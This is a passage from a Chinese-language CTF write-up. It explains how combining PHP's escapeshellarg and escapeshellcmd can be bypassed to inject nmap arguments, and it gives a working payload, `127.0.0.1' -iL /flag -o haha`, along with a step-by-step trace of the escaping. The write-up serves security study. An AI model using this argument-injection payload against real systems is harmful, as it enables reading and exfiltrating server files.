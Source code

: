 ![](assets/202208282140418-1700744628799127.png)

### 2. wp 里的其它思路

利用的是 nmap 的 `-iL` 参数, 加载待扫描的主机列表

```
127.0.0.1' -iL /flag -o haha
```

escapeshellarg 和 escapeshellcmd 两个组合使用还是不能一眼看出来... 只能一遍一遍慢慢推

```
127.0.0.1' -iL /flag -o haha

'127.0.0.1'\'' -iL /flag -o haha '

'127.0.0.1'\\'' -iL /flag -o haha \'
```

总之就是在 127.0.0.1 后面加了个单引号, 然后因为各种奇葩操作使前面的内容自己闭合, 后面的命令就逃逸出来了

注意最后面要加个空格才能写进 `haha` 里面, 不然的话写进的就是 `haha'` 文件 (但也能正常访问)

![](assets/202208282152124-1700744628799129.png)
